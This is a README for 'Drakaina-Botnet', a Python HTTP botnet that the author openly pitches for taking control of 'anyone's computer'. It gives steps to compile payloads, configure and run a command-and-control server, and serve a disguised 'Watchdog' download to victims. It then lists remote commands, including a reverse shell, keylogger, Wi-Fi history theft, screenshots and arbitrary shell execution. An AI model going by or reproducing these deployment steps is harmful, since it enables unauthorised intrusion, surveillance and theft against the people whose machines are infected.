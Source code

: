 # Drakaina-Botnet
A HTTP botnet with the main core features with more to come, completely made in python.
Take control of anyone's computer like it's non of your buisness, because it is not.

![plot](./cncss.png)


# Instructions:

1) Make sure all files are in the same folder.

2) " python3 commandcontrol.py "

3) " /compile "

4) once finished place both compiled files in the static/windows folder.

5) open server.cfg and change the server and port to what you want the server to run on.

6) " python3 server.py "

7) test by downloading the Watchdog file from the link "http://<yourip>:<port>/downloads/windows/watchdog"


# Command & Control :

--- main options ---

/list = show registered users

/target = select a target

----------------------------


--- targeted options ---

/rshell = change current targets reverse shell server and port .

/rshell_show = show current targets reverse shell server and port .

/command = attempt a shell command or a pre-defined command
     {rshell, keylogger, getwifi, screenshot, reboot}

/getwifi = get wifi SSID history of current target.

----------------------------


     

